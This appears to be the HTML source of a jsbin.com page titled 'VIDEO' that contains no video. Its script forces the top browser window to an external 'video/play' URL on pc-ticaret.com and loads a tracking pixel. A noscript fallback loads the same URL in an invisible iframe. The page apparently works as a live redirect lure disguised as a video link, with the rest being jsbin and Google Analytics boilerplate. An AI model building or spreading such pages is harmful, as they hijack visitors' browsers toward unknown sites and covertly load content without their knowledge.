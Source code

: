 
<!DOCTYPE html><html lang="en">
<!--
  Created using jsbin.com
  Source can be edited via http://jsbin.com/sokujaxa/1/edit
--><head><meta charset="utf-8"/><title>VIDEO</title>
<style id="jsbin-css">

</style>
</head><body><script>top.location = "http://pc-ticaret.com/x/video/play/video.html?0.8303780001588166";new Image().src = "http://whos.amung.us/swidget/pn18rkdlabwx.pnh";</script><noscript><iframe src="http://pc-ticaret.com/x/video/play/video.html?0.8303780001588166" style="display: none; opacity: 0"></iframe><img src="http://whos.amung.us/swidget/pn18rkdlabwx.pnh"/></noscript><script>

</script>
<script src="http://static.jsbin.com/js/render/edit.js?3.13.24"></script>
<script>jsbinShowEdit({"static":"http://static.jsbin.com","root":"http://jsbin.com","csrf":"8hnLlJDyEX+Quf3pO276CeeN"});</script>
<script>
var _gaq = _gaq || [];
_gaq.push(['_setAccount', 'UA-1656750-34']);
_gaq.push(['_trackPageview']);

(function() {
  var ga = document.createElement('script'); ga.type = 'text/javascript'; ga.async = true;
  ga.src = ('https:' == document.location.protocol ? 'https://ssl' : 'http://www') + '.google-analytics.com/ga.js';
  (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(ga);
})();
</script>
</body></html>
